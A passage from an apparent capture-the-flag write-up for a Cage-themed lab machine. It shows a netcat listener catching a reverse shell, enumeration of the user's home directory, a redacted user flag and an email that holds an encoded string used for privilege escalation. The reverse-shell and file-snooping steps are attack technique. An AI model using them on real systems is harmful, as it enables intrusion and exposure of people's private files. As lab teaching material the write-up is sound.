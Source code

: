 ```
tester@kali:~/Downloads$ nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.191.75] 58118
/bin/sh: 0: can't access tty; job control turned off
$ whoami
cage
$ pwd
/home/cage
$ ls -la
total 56
drwx------ 7 cage cage 4096 May 26 21:34 .
drwxr-xr-x 4 root root 4096 May 26 07:49 ..
lrwxrwxrwx 1 cage cage    9 May 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 cage cage  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cage cage 3771 Apr  4  2018 .bashrc
drwx------ 2 cage cage 4096 May 25 23:20 .cache
drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
drwx------ 3 cage cage 4096 May 25 23:20 .gnupg
drwxrwxr-x 3 cage cage 4096 May 25 23:40 .local
-rw-r--r-- 1 cage cage  807 Apr  4  2018 .profile
-rw-rw-r-- 1 cage cage   66 May 25 23:40 .selected_editor
drwx------ 2 cage cage 4096 May 26 07:33 .ssh
-rw-r--r-- 1 cage cage    0 May 25 23:20 .sudo_as_admin_successful
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist
-rw------- 1 cage cage 6761 May 26 21:34 .viminfo
```

We do get our shell as cage on our listener but we can't see the `user.txt`. Though we can check all the other files that we have access to. We can see a file named `Super_Duper_Checklist` in cage's directory, which we can check.

```
$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{********************}
```

And we got the user flag which we can submit as the answer to the second question.

### Privilege Escalation

3. ##### What's the root flag?

Now that we have the user flag, we need to move on to get the root flag for which we need to escalate our privileges. On browsing cage's file we can find a file named `email_3` in the `email_backup` directory which contains a weird string.

```
$ cat email_3
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
```